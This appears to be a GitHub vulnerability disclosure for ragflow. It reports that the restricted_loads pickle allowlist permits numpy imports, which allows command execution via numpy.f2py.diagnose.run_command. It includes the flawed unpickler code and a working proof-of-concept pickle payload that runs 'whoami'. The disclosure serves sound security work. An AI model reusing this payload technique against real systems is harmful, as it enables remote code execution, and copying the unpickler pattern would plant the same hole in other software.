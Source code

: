 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| <=0.7.0   | :white_check_mark: |

## Reporting a Vulnerability

### Branch name

main

### Actual behavior

The restricted_loads function at [api/utils/__init__.py#L215](https://github.com/infiniflow/ragflow/blob/main/api/utils/__init__.py#L215) is still vulnerable leading via code execution.
The main reason is that numpy module has a numpy.f2py.diagnose.run_command function directly execute commands, but the restricted_loads function allows users import functions in module numpy.


### Steps to reproduce


**ragflow_patch.py**

```py
import builtins
import io
import pickle

safe_module = {
    'numpy',
    'rag_flow'
}


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        import importlib
        if module.split('.')[0] in safe_module:
            _module = importlib.import_module(module)
            return getattr(_module, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))


def restricted_loads(src):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(src)).load()
```
Then, **PoC.py**
```py
import pickle
from ragflow_patch import restricted_loads
class Exploit:
     def __reduce__(self):
         import numpy.f2py.diagnose
         return numpy.f2py.diagnose.run_command, ('whoami', )

Payload=pickle.dumps(Exploit())
restricted_loads(Payload)
```
**Result**
![image](https://github.com/infiniflow/ragflow/assets/85293841/8e5ed255-2e84-466c-bce4-776f7e4401e8)


### Additional information

#### How to prevent?
Strictly filter the module and name before calling with getattr function.
